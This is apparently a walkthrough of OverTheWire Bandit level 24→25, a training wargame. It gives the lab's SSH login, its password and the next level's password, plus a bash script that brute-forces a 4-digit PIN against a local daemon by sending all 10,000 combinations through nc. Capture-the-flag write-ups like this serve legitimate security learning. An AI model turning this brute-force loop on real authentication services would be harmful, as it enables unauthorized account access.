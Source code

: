 # Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Commands you may need to solve this level



## Helpful Reading Material



## Write-up

```
ssh bandit24@bandit.labs.overthewire.org
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
mkdir /tmp/gun_bandit24
cd /tmp/gun_bandit24
vim script.sh
	#!/bin/bash

	password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

	for a in {0..9}{0..9}{0..9}{0..9}
	do
	    echo $password' '$a | nc localhost 30002 >> result&
	done
	echo 'done'
chmod +x ./script.sh
sort result | uniq -u
```
Password : `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`